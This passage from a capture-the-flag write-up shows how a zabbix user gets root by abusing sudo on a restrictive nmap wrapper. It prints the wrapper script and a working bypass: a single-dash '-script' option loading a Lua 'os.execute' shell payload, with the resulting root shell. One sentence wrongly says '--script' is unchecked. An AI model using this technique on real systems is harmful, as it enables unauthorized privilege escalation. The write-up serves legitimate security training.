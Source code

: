 ```
Compiled without:
Available nsock engines: epoll poll select

```

We can use case a
```
zabbix@unrested:~$ TF=$(mktemp)
zabbix@unrested:~$ echo 'os.execute("/bin/sh")' > $TF
zabbix@unrested:~$ sudo nmap --script=$TF
Script mode is disabled for security reasons.
zabbix@unrested:~$ id
uid=114(zabbix) gid=121(zabbix) groups=121(zabbix)
zabbix@unrested:~$ whoami
zabbix

```
But we failed here, I found this `nmap` is just a script
```
zabbix@unrested:~$ file /usr/bin/nmap
/usr/bin/nmap: Bourne-Again shell script, ASCII text executable
```
We can check it
```
zabbix@unrested:~$ cat /usr/bin/nmap
#!/bin/bash

#################################
## Restrictive nmap for Zabbix ##
#################################

# List of restricted options and corresponding error messages
declare -A RESTRICTED_OPTIONS=(
    ["--interactive"]="Interactive mode is disabled for security reasons."
    ["--script"]="Script mode is disabled for security reasons."
    ["-oG"]="Scan outputs in Greppable format are disabled for security reasons."
    ["-iL"]="File input mode is disabled for security reasons."
)

# Check if any restricted options are used
for option in "${!RESTRICTED_OPTIONS[@]}"; do
    if [[ "$*" == *"$option"* ]]; then
        echo "${RESTRICTED_OPTIONS[$option]}"
        exit 1
    fi
done

# Execute the original nmap binary with the provided arguments
exec /usr/bin/nmap.original "$@"

```

We can use the `--script` argument, which is not checked by the wrapper script.
```
zabbix@unrested:~$ echo 'os.execute("/bin/bash")' > test.sh
zabbix@unrested:~$ sudo nmap -script=test.sh                
Starting Nmap 7.80 ( https://nmap.org ) at 2025-03-01 01:17 UTC
NSE: Warning: Loading 'test.sh' -- the recommended file extension is '.nse'.
root@unrested:/var/lib/zabbix# reset: unknown terminal type unknown
Terminal type? screen
root@unrested:/var/lib/zabbix# id
uid=0(root) gid=0(root) groups=0(root)
```
